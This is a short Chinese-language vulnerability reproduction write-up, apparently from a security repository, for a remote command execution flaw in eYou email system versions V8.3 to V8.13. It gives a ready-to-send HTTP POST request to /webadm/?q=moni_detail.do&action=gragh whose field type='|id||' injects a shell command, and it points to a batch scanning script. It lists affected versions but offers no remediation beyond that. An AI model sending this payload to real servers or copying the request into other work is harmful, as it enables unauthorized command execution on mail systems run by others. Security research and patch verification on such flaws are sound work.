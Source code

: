 # 0x00 软件介绍
北京亿中邮信息技术有限公司（亿邮）：提供邮件系统解决方案  
官网：http://www.eyou.net/index.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
漏洞影响的产品版本为亿邮电子邮件系统V8.3-V8.13的部分二次开发版本。  
亿邮电子邮件系统信创版本及V8.13以后版本不受影响。

# 0x04 漏洞复现
burp中发送如下请求
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: mail.xxx.com.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 12

type='|id||'
```
返回如下图  
![image](./pic/0.png)

# 0x05 批量脚本
EYouMailRCE-Batch-Detect.py，具体用法见：python EYouMailRCE-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg
